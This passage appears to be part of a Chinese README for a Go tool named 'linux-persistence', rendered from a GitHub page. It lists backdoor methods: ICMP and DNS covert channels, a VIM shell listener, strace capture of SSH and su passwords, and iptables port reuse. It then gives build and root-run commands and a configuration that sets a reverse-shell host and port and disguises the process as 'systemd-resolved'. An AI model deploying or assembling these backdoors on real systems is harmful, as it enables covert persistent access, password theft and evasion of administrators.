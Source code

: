 ### 8. ICMP后门
- 监听ICMP数据包
- 通过特定payload触发
- 使用原始套接字

### 9. DNS后门
- 伪装成DNS查询流量
- 定期发送查询请求
- 隐蔽的通信通道

### 10. VIM后门
- 利用VIM的Python扩展
- 后台运行shell监听
- 进程伪装

### 11. Strace后门
- 记录SSH和su命令的输入
- 获取用户密码
- 日志文件存储

### 12. 端口复用后门
- 使用iptables实现端口复用
- 通过特定字符串触发
- SSH流量复用

## 编译和运行

### 编译
```bash
go build -o linux-persistence main.go
```

### 运行
```bash
# 建议以root权限运行以获得最佳效果
sudo ./linux-persistence
```

## 配置选项

可以修改`main.go`中的配置结构体来自定义设置：

```go
var config = Config{
    ReverseShellHost: "192.168.1.100",  // 反弹shell目标主机
    ReverseShellPort: 4444,             // 反弹shell目标端口
    BackdoorPort:     6666,             // VIM后门监听端口
    HiddenProcess:    "systemd-resolved", // 隐藏进程名称
    SSHBackdoorPort:  2222,             // SSH后门端口
}
```
